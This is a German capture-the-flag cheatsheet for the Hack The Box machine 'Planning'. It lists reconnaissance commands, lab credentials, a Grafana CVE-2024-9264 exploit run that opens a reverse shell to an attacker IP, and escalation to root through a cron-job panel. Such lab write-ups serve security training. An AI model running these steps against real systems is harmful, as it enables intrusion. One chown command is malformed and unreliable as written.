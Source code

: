 
# 🛠️ HTB Planning – Cheatsheet (deutsch)

## 🧭 Übersicht
Dieser Beitrag beschreibt die Schritte zur Kompromittierung der HTB-Maschine „Planning“ mithilfe von Nmap, Dirsearch, FFUF und der Ausnutzung einer bekannten Grafana-Schwachstelle (CVE-2024-9264).

---

## 1. 🔍 Initiale Erkundung

### Nmap-Scan:
```bash
nmap -sC -sV 10.10.11.68
```

**Ergebnisse:**
- **Port 22**: SSH (OpenSSH 9.6p1)
- **Port 80**: HTTP (nginx 1.24.0)

### Hosts-Datei anpassen:
```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

---

## 2. 📂 Verzeichnis- und Subdomain-Erkennung

### Dirsearch verwenden:
```bash
python3 dirsearch.py -u http://planning.htb
```

**Gefundene Pfade:**
- /about.php
- /contact.php
- /index.php
- /css/
- /img/
- /js/
- /lib/

### Subdomains mit FFUF entdecken:
```bash
ffuf -w /pfad/zur/wordlist.txt -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -fs 178
```

**Ergebnis:**
- **grafana.planning.htb** (Status: 302)

### Hosts-Datei erneut anpassen:
```bash
echo "10.10.11.68 grafana.planning.htb" | sudo tee -a /etc/hosts
```

---

## 3. 🔓 Zugriff auf Grafana

**Anmeldedaten:**
- Benutzername: `admin`
- Passwort: `0D5oT70Fq13EvB5r`

**Grafana-Version:** v11

**Bekannte Schwachstelle:** CVE-2024-9264

---

## 4. 🎯 Exploit durchführen

**Voraussetzung:** Stelle sicher, dass du einen Listener auf deinem lokalen System eingerichtet hast:
```bash
nc -lvnp <dein_port>
```

**Exploit ausführen:**
```bash
sudo python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <deine_ip> --reverse-port <dein_port>
```
---

## 5. 🐚 Root-Zugriff erlangen

```bash
netstat -tulpn
```

```bash
port 8000 # reroute mit ssh -L 8000:127.0.0.1:8000 enzo@planning.htb 
```

Es gibt eine weitere Login-Seite. Login mit root:P4ssw0rdS0pRi0T3c. Es können weitere Cronjobs angelegt werden.

```bash
cp /root/root.txt /tmp/root.txt && chown 777 enzo:enzo /tmp/root.txt
```
---

